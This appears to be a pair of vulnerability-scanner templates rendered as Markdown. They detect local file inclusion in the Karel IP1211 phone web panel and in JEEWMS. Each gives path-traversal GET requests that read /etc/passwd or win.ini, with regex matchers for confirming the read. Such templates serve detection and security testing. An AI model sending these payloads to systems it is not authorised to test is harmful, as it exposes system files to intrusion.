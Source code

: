 - Karel IP Phone IP1211 Web Management Panel is vulnerable to local file inclusion and can allow remote attackers to access arbitrary files stored on the remote device via the 'cgiServer.exx' endpoint and the 'page' parameter.
- severity - high
- tags - karel,lfi

## Requests

- Method - GET

### URL

- {{BaseURL}}/cgi-bin/cgiServer.exx?page=../../../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# JEEWMS - Local File Inclusion

## Description

- JEEWMS is vulnerable to local file inclusion.
- severity - high
- tags - jeewms,lfi

## Requests

### Step - 1

```
GET /systemController/showOrDownByurl.do?down=&dbPath=../../../../../../etc/passwd HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

```

### Step - 2

```
GET /systemController/showOrDownByurl.do?down=&dbPath=../Windows/win.ini HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

```
